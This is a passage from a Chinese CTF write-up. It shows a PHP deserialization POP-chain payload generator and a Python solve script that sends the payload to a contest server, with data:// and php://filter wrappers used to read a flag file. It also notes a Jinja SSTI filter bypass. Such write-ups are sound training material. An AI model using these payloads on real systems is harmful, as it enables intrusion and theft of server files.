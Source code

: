 			      $o = $useless;
			      $a = new ArrayObject([114 => 514]);
			      $a -> o = $o;
			      
			      echo "payloadsta"."rt".base64_encode(serialize($a))."payloadst"."op";
			  }
			  ```
		- python脚本
		  collapsed:: true
			- ```python
			  # url = "http://127.0.0.1:8080/index.php"
			  url = "https://rtmnchid56vovnhz77v4mffy6.node.game.sycsec.com/havefun.php"
			  api_url = "http://127.0.0.1:8080/pop.php"
			  
			  def get_payload_fcall():
			      r = base_get(api_url, params = {"action": "fcall"})
			      print(r.text)
			      content = r.text.rpartition("payloadstart")[2].partition("payloadstop")[0]
			      return encoder.base64_decode(content)
			  
			  def get_payload_getkey():
			      r = base_get(api_url, params = {"action": "getkey"})
			      content = r.text.rpartition("payloadstart")[2].partition("payloadstop")[0]
			      print(content)
			      return encoder.base64.b64decode(content)
			  
			  def get_keyphp_content():
			      r = base_get(url + "/key.php/%80", params = {
			          "user": get_payload_getkey(),
			          "a": "PATH_INFO"
			      })
			      with open("phpinfo.html", "w") as f:
			          f.write(r.text)
			      return r.text.rpartition("我好想她<br>")[2]
			  
			  # with open("key.php", "w") as f:
			  #     f.write(get_keyphp_content())
			  
			  r = base_post(url, params = {
			      "user": get_payload_fcall(),
			      "file": "data://text/plain,loveyou",
			      # "fun": "glob://f*"
			      "fun": "php://filter/read=convert.base64-encode/resource=flag_my_baby.php"
			  }, data = {
			      # "ctf":"DirectoryIterator",
			      "ctf":"SplFileObject",
			  })
			  print(r.text.replace("<br>", "<br>\n"))
			  ```
- # klf_2
  collapsed:: true
	- [[CTF/SSTI/Jinja]]
	- 大概是针对焚靖出的题目，焚靖的常用规则都被禁了
		- 首先焚靖高度依赖的`%`被针对了，然后几乎所有高端的生成字符串规则也全都被针对了
		- 甚至连数字`37`都没办法自动生成...
		- 而且尝试手动注入会发现这一句话：`好好好你不是klf，我一定会再回来的!`...
	- 绕过思路
		- 将字符串分成一个个字符分别生成，然后用`join` filter合并起来